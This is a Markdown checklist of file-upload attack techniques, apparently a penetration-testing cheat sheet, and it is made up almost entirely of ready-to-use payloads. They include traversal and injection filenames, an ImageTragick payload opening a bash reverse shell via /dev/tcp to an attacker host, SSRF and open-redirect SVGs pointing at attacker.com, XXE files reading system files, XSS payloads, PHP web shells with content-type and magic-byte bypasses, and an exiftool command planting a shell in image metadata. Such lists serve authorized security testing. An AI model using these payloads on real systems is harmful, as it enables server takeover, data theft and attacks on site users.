 - Vulnerabilities
    - [ ] Directory Traversal
        - Set filename `../../etc/passwd/logo.png`
        - Set filename `../../../logo.png` as it might change the website logo.
    - [ ] SQL Injection
        - Set filename `'sleep(10).jpg`.
        - Set filename `sleep(10)-- -.jpg`.
    - [ ] Command Injection
        - Set filename `; sleep 10;`
    - [ ] SSRF
        - Abusing the "Upload from URL"
        - SSRF Through `.svg` file

        ```php
        <?xml version="1.0" encoding="UTF-8" standalone="no"?>
        <svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
            <image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" />
        </svg>
        ```

    - [ ] ImageTragic

        ```
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
        pop graphic-context
        ```

    - [ ] XXE
        - Upload using `.svg` file

        ```xml
        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
           <text font-size="40" x="0" y="16">&xxe;</text>
        </svg>
        ```

        ```xml
        <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
            <image xlink:href="expect://ls"></image>
        </svg>
        ```

        - Using excel file
    - [ ] XSS
        - Set file name `filename="svg onload=alert(document.domain)>"`, `filename="58832_300x300.jpg<svg onload=confirm()>"`
        - Upload using `.gif` file

        ```
        GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
        ```

        - Upload using `.svg` file

        ```xml
        <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
        ```

        ```xml
        <?xml version="1.0" standalone="no"?>
        <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

        <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
           <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
           <script type="text/javascript">
              alert("HolyBugx XSS");
           </script>
        </svg>
        ```

    - [ ] Open Redirect
        1. Upload using `.svg` file

        ```xml
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg onload="window.location='https://attacker.com'" xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
        </svg>
        ```

- Content-ish Bypass
    - [ ] Content-type validation
        - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
    - [ ] Content-Length validation
        - Small PHP Shell

        ```php
        (<?=`$_GET[x]`?>)
        ```

    - [ ] Content Bypass Shell
        - If they check the Content. Add the text "GIF89a;" before you shell-code. (`Content-type: image/gif`)

        ```php
        GIF89a; <?php system($_GET['cmd']); ?>
        ```

- Misc
    - [ ] Uploading `file.js` & `file.config` (web.config)
    - [ ] Pixel flood attack using image
    - [ ] DoS with a large values name: `1234...99.png`
    - [ ] Zip Slip
        - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
    - [ ] Image Shell
        - Exiftool is a great tool to view and manipulate exif-data. Then rename the file `mv pic.jpg pic.php.jpg`

        ```php
        exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
        ```
